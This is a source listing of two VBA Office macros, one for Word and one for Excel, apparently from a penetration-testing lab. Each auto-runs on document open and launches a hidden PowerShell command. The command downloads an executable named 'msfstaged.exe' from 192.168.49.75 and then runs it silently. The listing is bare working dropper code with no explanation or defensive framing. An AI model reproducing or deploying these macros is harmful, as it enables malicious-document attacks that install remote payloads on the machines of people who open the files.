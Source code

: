 1

Sub Document_Open()
	MyMacro
End Sub

Sub AutoOpen()
	MyMacro
End Sub

Sub MyMacro()
	Dim str As String
	str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.49.75/msfstaged.exe','msfstaged.exe')"
	Shell str, vbHide
	Dim exePath As String
	exePath = ActiveDocument.Path + "\msfstaged.exe"
	Wait (2)
	Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
	Dim t as Date
	t = Now
	Do
		DoEvents
	Loop Until Now >= DateAdd("s", n, t)
End Sub

2

Sub Workbook_Open()
MyMacro
End Sub

Sub AutoOpen()
MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell  -NoProfile -ExecutionPolicy unrestricted -Command Invoke-WebRequest 'http://192.168.49.75/msfstaged.exe' -OutFile 'msfstaged.exe'"
    Call Shell(str, vbHide)
    Dim exePath As String
    exePath = ActiveWorkbook.Path + "\msfstaged.exe"
    Application.Wait (Now + TimeValue("00:00:10"))
    Call Shell(exePath, vbHide)
End Sub